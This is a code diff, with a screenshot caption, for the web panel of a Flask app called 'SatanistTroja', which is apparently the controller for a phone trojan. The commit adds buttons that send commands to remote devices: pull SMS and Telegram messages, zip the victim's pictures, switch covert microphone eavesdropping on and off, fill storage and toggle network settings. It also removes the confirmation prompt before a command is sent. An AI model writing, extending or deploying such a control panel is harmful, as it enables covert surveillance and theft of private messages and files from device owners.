

Before and after one commit to vnartov840-art/Satanist-Troja, a Flask app: page / in a window 1280 px wide. Shown: the top 316 px of the page, without its empty margins (108-1171 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; tables that the repository leaves empty hold one stand-in row (values such as "Sample post").

Commit message:
Add files via upload

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,15 +2,15 @@
 <html>
 <head>
     <meta charset="UTF-8">
-    <title>SatanistTroja - Управление устройствами</title>
+    <title>SatanistTroja - Управление</title>
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <style>
         * { margin: 0; padding: 0; box-sizing: border-box; }
         body { font-family: 'Segoe UI', sans-serif; background: #0a0e17; color: #e6edf3; padding: 20px; }
-        .container { max-width: 900px; margin: 0 auto; }
-        h1 { font-size: 28px; margin-bottom: 20px; display: flex; align-items: center; gap: 10px; }
-        .header-info { font-size: 14px; color: #8b949e; font-weight: normal; }
-        .device { background: #161b22; border-radius: 16px; padding: 18px 20px; margin-bottom: 14px; border-left: 5px solid #2ea043; transition: all 0.3s; }
+        .container { max-width: 1000px; margin: 0 auto; }
+        h1 { font-size: 28px; margin-bottom: 10px; display: flex; align-items: center; gap: 10px; }
+        .subtitle { color: #8b949e; margin-bottom: 20px; }
+        .device { background: #161b22; border-radius: 16px; padding: 18px 20px; margin-bottom: 14px; border-left: 5px solid #2ea043; transition: all 0.3s; cursor: pointer; }
         .device.offline { border-left-color: #da3633; opacity: 0.7; }
         .device.online { border-left-color: #2ea043; }
         .device-top { display: flex; justify-content: space-between; align-items: center; flex-wrap: wrap; gap: 10px; }
@@ -27,23 +27,80 @@
         .btn-danger:hover { background: #f85149; }
         .btn-outline { background: transparent; border: 1px solid #30363d; color: #c9d1d9; }
         .btn-outline:hover { background: #30363d; }
+        .btn-purple { background: #8957e5; }
+        .btn-purple:hover { background: #a371f7; }
+        .btn-orange { background: #d29922; }
+        .btn-orange:hover { background: #e3b341; }
         .empty { text-align: center; padding: 60px 20px; color: #8b949e; }
         .empty .icon { font-size: 48px; margin-bottom: 16px; }
         .last-seen { font-size: 12px; color: #8b949e; margin-top: 4px; }
         .badge { background: #21262d; padding: 2px 10px; border-radius: 20px; font-size: 12px; }
-        @media (max-width: 600px) {
-            .device-top { flex-direction: column; align-items: flex-start; }
-        }
+        .menu-panel { background: #161b22; border-radius: 16px; padding: 20px; margin-top: 10px; display: none; border: 1px solid #30363d; }
+        .menu-panel.active { display: block; }
+        .menu-grid { display: grid; grid-template-columns: repeat(auto-fill, minmax(140px, 1fr)); gap: 10px; margin-top: 12px; }
+        .menu-grid .btn { width: 100%; text-align: center; padding: 10px; }
+        .menu-title { font-size: 16px; font-weight: bold; color: #c9d1d9; margin-bottom: 8px; }
+        .toast { position: fixed; bottom: 20px; left: 50%; transform: translateX(-50%); background: #238636; color: #fff; padding: 12px 24px; border-radius: 8px; z-index: 9999; font-size: 14px; animation: fadeIn 0.3s; }
+        .toast.error { background: #da3633; }
+        @keyframes fadeIn { from { opacity: 0; transform: translateX(-50%) translateY(20px); } to { opacity: 1; transform: translateX(-50%) translateY(0); } }
+        @media (max-width: 600px) { .device-top { flex-direction: column; align-items: flex-start; } .menu-grid { grid-template-columns: repeat(2, 1fr); } }
+        .expand-icon { font-size: 12px; color: #8b949e; margin-left: 8px; transition: transform 0.3s; }
+        .expand-icon.rotated { transform: rotate(180deg); }
+        .recording-indicator { color: #f85149; animation: blink 1s infinite; }
+        @keyframes blink { 50% { opacity: 0; } }
+        .file-link { color: #58a6ff; text-decoration: none; }
+        .file-link:hover { text-decoration: underline; }
     </style>
 </head>
 <body>
 <div class="container">
     <h1>📱 SatanistTroja</h1>
-    <p style="color:#8b949e; margin-bottom: 20px;">Управление подключёнными устройствами</p>
+    <div class="subtitle">Управление подключёнными устройствами</div>
     <div id="devices">Загрузка...</div>
 </div>
 
 <script>
+    let activeDeviceId = null;
+    let toastTimeout = null;
+
+    function showToast(msg, isError = false) {
+        if (toastTimeout) clearTimeout(toastTimeout);
+        const existing = document.querySelector('.toast');
+        if (existing) existing.remove();
+        const toast = document.createElement('div');
+        toast.className = 'toast' + (isError ? ' error' : '');
+        toast.textContent = msg;
+        document.body.appendChild(toast);
+        toastTimeout = setTimeout(() => toast.remove(), 3000);
+    }
+
+    function toggleMenu(deviceId) {
+        const panel = document.getElementById('menu-' + deviceId);
+        const icon = document.querySelector(`.device[onclick="toggleMenu('${deviceId}')"] .expand-icon`);
+        if (activeDeviceId && activeDeviceId !== deviceId) {
+            const oldPanel = document.getElementById('menu-' + activeDeviceId);
+            if (oldPanel) oldPanel.classList.remove('active');
+            const oldIcon = document.querySelector(`.device[onclick="toggleMenu('${activeDeviceId}')"] .expand-icon`);
+            if (oldIcon) oldIcon.classList.remove('rotated');
+        }
+        if (panel) {
+            panel.classList.toggle('active');
+            if (icon) icon.classList.toggle('rotated');
+            activeDeviceId = panel.classList.contains('active') ? deviceId : null;
+        }
+    }
+
+    function sendCommand(deviceId, command) {
+        fetch('/api/command', {
+            method: 'POST',
+            headers: { 'Content-Type': 'application/json' },
+            body: JSON.stringify({ deviceId, command })
+        })
+        .then(res => res.json())
+        .then(() => showToast('✅ Команда отправлена: ' + command))
+        .catch(() => showToast('❌ Ошибка отправки', true));
+    }
+
     function fetchDevices() {
         fetch('/api/devices')
             .then(res => res.json())
@@ -55,10 +112,11 @@
                 }
                 container.innerHTML = data.map(d => {
                     const isOnline = d.status === 'online';
+                    const menuId = 'menu-' + d.id;
                     return `
-                        <div class="device ${isOnline ? 'online' : 'offline'}">
+                        <div class="device ${isOnline ? 'online' : 'offline'}" onclick="toggleMenu('${d.id}')">
                             <div class="device-top">
-                                <div class="device-name">${d.name || 'Без имени'}</div>
+                                <div class="device-name">${d.name || 'Без имени'} <span class="expand-icon">▼</span></div>
                                 <div class="device-status">
                                     ${isOnline
                                         ? '<span class="online-tag">🟢 Онлайн</span>'
@@ -72,11 +130,27 @@
                                 ${d.ip ? `<span>🌐 ${d.ip}</span>` : ''}
                             </div>
                             <div class="last-seen">Последний раз: ${d.last_seen ? new Date(d.last_seen).toLocaleString() : 'N/A'}</div>
-                            <div class="device-actions">
-                                <button class="btn" onclick="sendCommand('${d.id}', 'reboot')">🔄 Перезагрузить</button>
-                                <button class="btn btn-danger" onclick="sendCommand('${d.id}', 'shutdown')">⏻ Выключить</button>
-                                <button class="btn btn-outline" onclick="sendCommand('${d.id}', 'get_data')">📊 Данные</button>
-                                <button class="btn btn-outline" onclick="sendCommand('${d.id}', 'pictures')">📁 Pictures ZIP</button>
+
+                            <div class="menu-panel" id="${menuId}">
+                                <div class="menu-title">🎮 Управление устройством</div>
+                                <div class="menu-grid">
+                                    <button class="btn" onclick="event.stopPropagation(); sendCommand('${d.id}', 'reboot')">🔄 Перезагрузить</button>
+                                    <button class="btn btn-danger" onclick="event.stopPropagation(); sendCommand('${d.id}', 'shutdown')">⏻ Выключить</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'collect')">📊 Данные</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'pictures')">📁 Pictures ZIP</button>
+                                    <button class="btn btn-purple" onclick="event.stopPropagation(); sendCommand('${d.id}', 'lock_volume')">🔒 Блок. громкость</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'unlock_volume')">🔓 Разблок. громкость</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'wifi_toggle')">📶 Wi-Fi</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'airplane')">✈️ Режим полёта</button>
+                                    <button class="btn btn-orange" onclick="event.stopPropagation(); sendCommand('${d.id}', 'wallpaper')">🖼 Обои</button>
+                                    <button class="btn btn-purple" onclick="event.stopPropagation(); sendCommand('${d.id}', 'sms')">📱 SMS последние 5</button>
+                                    <button class="btn btn-purple" onclick="event.stopPropagation(); sendCommand('${d.id}', 'tgsms30')">📩 TG последние 30</button>
+                                    <button class="btn btn-purple" onclick="event.stopPropagation(); sendCommand('${d.id}', 'tgsms1000')">📩 TG последние 1000</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'fill_storage')">💾 Заполнить память</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'clean_storage')">🧹 Очистить память</button>
+                                    <button class="btn btn-danger" onclick="event.stopPropagation(); startRecording('${d.id}')">🎙 Прослушка (вкл)</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); stopRecording('${d.id}')">⏹ Прослушка (выкл)</button>
+                                </div>
                             </div>
                         </div>
                     `;
@@ -87,16 +161,15 @@
             });
     }
 
-    function sendCommand(deviceId, command) {
-        if (!confirm(`Отправить "${command}" на устройство?`)) return;
-        fetch('/api/command', {
-            method: 'POST',
-            headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify({ deviceId, command })
-        })
-        .then(res => res.json())
-        .then(() => alert('✅ Команда отправлена'))
-        .catch(() => alert('❌ Ошибка отправки'));
+    // Прослушка
+    function startRecording(deviceId) {
+        sendCommand(deviceId, 'voice_start');
+        showToast('🎙 Прослушка включена');
+    }
+
+    function stopRecording(deviceId) {
+        sendCommand(deviceId, 'voice_stop');
+        showToast('⏹ Прослушка выключена');
     }
 
     // Обновляем каждые 10 секунд
```
